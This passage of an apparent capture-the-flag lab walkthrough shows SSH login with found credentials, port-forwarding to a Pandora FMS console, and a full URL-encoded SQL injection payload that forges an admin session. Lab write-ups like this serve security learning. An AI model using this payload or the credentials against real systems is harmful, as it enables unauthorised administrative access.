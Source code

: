 After enumeration we find credentials for `daniel` we can ssh in with these

daniel:HotelBabylon23

browsing to `/var/www/pandora/pandora_console/index.php` 
we see that it is running Pandora FMS 


---

### port forwarding

web gui is running on port 80, we must forward this to our host

`ssh -L 9090:127.0.0.1:80 daniel@victim_machine`

We can now access the web gui at `http://localhost:9090`


To get in we will have to follow this blog for the SQLi

https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained

We end up with this payload:

```
http://localhost:9090/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
```

Open another tab and go back to `http://localhost:9090/pandora_console/`

We now have access to the web gui

